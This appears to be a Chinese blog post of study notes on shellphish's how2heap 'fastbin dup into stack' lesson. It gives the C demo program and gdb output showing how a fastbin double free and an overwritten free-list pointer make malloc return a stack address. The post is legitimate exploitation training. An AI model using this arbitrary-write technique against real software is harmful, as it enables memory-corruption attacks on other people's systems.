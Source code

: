 ```yaml
---
title: how2heap-03 fastbin dup into stack实践笔记
tags: [CTF, pwn, heap]
layout: post
categories: tutorials
---
```


> 本文是对shellphish的[how2heap](https://github.com/shellphish/how2heap)系列堆漏洞课程的实践笔记

## 示例源码

``` c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	printf("This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	printf("The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);
  /* [1] */
	printf("Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	printf("1st malloc(8): %p\n", a);
	printf("2nd malloc(8): %p\n", b);
	printf("3rd malloc(8): %p\n", c);

	printf("Freeing the first one...\n");
	free(a);

	printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	printf("So, instead, we'll free %p.\n", b);
	free(b);

	printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	printf("Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);

	unsigned long long *d = malloc(8);

	printf("1st malloc(8): %p\n", d);
	printf("2nd malloc(8): %p\n", malloc(8));
  /* [2] */
	printf("Now the free list has [ %p ].\n", a);
	printf("Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x20;

	printf("Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
  /* [3] */
	printf("3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	printf("4th malloc(8): %p\n", malloc(8));
  /* [4] */
}
```

## 漏洞分析

这节是上节fastbin dup的扩展，目的是获得一个指向任意地址的指针，在这里我们是获得一个栈的指针

我们用gdb挂起程序，运行到`[1]`位置，此时我们定义了一个指针，指针的地址为`0x7fffffffdb68`，而我们希望`malloc()`返回的地址为`0x7fffffffdb70`

``` bash
The address we want malloc() to return is 0x7fffffffdb70.
```

继续向下，和`fastbin-dup`类似，因此具体过程不再描述，这里直接向下运行到`[2]`处

在`[2]`位置，程序新定义了一个指针`d`，指向新分配的内存地址，也就是chunk `a`的地址。往下，我们的目的是在栈中写入一个`伪造的free chunk的大小`，在这里我们是`stack_var`并设定为`0x20`

随后在`[3]`位置`*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));`，这意思是将point `d`指向`stack_var`的上一个位置

``` bash
gdb-peda$ freebins
fast bin 0 @ 0x602000
	free chunk @ 0x602000 - size 0x20
	free chunk @ 0x7fffffffdb60 - size 0x20
	free chunk @ 0x602010 - size 0x0
gdb-peda$ fastbins
fastbins
[ fb 0 ] 0x7ffff7dd3768  -> [ 0x602000 ] (32)
                            [ 0x7fffffffdb60 ] (32)
                            [ 0x602010 ] (32)
```

可以看见，实际上，通过修改了`fastbins`上的数据，伪造了一个新的`bin`，其中这个伪造`bin`的大小为`0x20`，地址为`0x7fffffffdb60`，也就是`*d = &stack_var - sizeof(d) = 0x7fffffffdb68 - 0x08 = 0x7fffffffdb60`,从而向`fastbins`添加了一个伪造的bin，即`[ 0x602000 ] -> [0x7fffffffdb60]`，这时再`malloc(8)`，那么申请两次，便可以获得一个栈上的地址，这个栈上的地址为`8+(char *)&stack_var`，即`[0x7fffffffdb70]`

即得到结论

> 通过fastbins的2free并覆盖fastbins结构，我们可以获得一个指向任意地址(比如栈)的指针

![fastbin_dup_into_stack](http://od7mpc53s.bkt.clouddn.com/how2heap-fastbin_dup_into_stack.png)
